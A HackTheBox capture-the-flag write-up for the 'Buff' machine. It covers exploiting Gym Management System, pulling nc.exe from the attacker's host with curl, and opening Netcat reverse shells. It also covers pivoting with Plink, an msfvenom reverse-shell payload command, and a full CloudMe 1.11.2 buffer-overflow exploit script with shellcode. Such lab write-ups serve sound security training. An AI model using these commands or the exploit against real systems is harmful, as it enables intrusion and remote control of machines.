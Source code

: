```yaml
---
title: 'HTB: Buff'
date: '2020-11-21 19:04:00 -0400'
categories:
  - HackTheBox
  - Write-ups
tags:
  - HTB
  - pivot
  - overflow
published: true
---
```


IP: 10.10.10.198


We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](./../../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)


The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's still on the contact page.
![c1b4ec2904be4e3ec168d8841d9c5104.png](./../../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)
![9b3d9de1efcab6ab008f565155f73edd.png](./../../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)


We can use a public exploit to get a basic shell from [here](https://www.exploit-db.com/exploits/48506). If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](./../../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)


Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](./../../assets/img/f64f50b891d5a7611026a15244cbf293.png)


We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](./../../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)


CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](./../../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](./../../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)


Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](./../../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](./../../assets/img/ebed04248fed4e721a46f157b490dbc6.png)


If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](./../../assets/img/7843a116bb14da112accdcffccd36db4.png)


Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](./../../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)


A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc.
https://www.exploit-db.com/exploits/48389


The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.
![15194e417049dd2769842e62bcc79a96.png](./../../assets/img/15194e417049dd2769842e62bcc79a96.png)


Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.


![e26a278e002293ad825c7dfbe53d1825.png](./../../assets/img/e26a278e002293ad825c7dfbe53d1825.png)


We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](./../../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](./../../assets/img/4104ddb888b79f62429201098b951c84.png)


Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](./../../assets/img/fb7892c83fd455faad4232846498a3c5.png)


Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](./../../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)


After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](./../../assets/img/ef60c279631269273f4b1338b32afce9.png)


Now we can generate a payload for the CloudMe exploit using MsfVenom.
```bash
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](./../../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)


Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```


We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](./../../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](./../../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)


All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](./../../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
